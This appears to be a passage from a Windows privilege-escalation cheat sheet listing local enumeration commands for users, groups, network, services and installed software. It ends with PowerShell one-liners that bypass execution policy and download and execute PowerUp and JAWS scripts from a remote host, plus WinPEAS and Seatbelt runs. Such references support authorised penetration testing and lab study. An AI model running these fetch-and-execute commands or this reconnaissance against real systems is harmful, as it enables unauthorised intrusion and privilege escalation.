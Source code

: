#### User Information
```powershell
# Current User
whoami
whoami /priv
whoami /groups
net user %username%

# All Users
net user
net localgroup
net localgroup Administrators
```

#### Network Information
```powershell
# Network Configuration
ipconfig /all
route print
arp -A

# Active Connections
netstat -ano
```

#### Running Services
```powershell
# Process List
tasklist /SVC
tasklist /v
wmic process get caption,executablepath,commandline

# Service List
sc query
wmic service list brief
wmic service get name,displayname,pathname,startmode
```

#### Installed Software
```powershell
# Installed Applications
wmic product get name,version,vendor
reg query HKEY_LOCAL_MACHINE\SOFTWARE

# Program Files
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
```

### Automated Enumeration Tools

```powershell
# PowerUp
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerUp.ps1'); Invoke-AllChecks"

# JAWS
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/jaws-enum.ps1')"

# WinPEAS
.\winPEASany.exe

# Seatbelt
.\Seatbelt.exe -group=all
```
